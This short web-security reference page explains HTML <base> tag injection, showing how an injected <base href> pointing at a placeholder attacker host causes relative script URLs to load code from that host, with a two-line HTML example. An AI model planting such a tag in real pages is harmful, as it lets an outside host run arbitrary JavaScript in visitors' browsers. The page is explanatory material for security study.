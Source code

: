 # Overview

The HTML [&lt;base&gt;](https://developer.mozilla.org/en-US/docs/Web/HTML/Element/base) element specifies the base URL to use for all relative URLs in a document.

{% hint style="info" %}
If multiple &lt;base&gt; elements are used, only the first href and first target are obeyed — all others are ignored.
{% endhint %}

# Relative URL redirection

`<base>` tag injection allows redirecting relative URLs to an arbitrary host.

For example, for the following page, the browser will request a script from `https://attacker-website.com/assets/some-script.js`.

```html
<base href="https://attacker-website.com">

<script src="/assets/some-script.js"></script>
```

In other words, if there is a way to inject the `<base>` tag it is possible to inject arbitrary JavaScipt code to the `<scripts>` elements that download scripts using relative URLs.

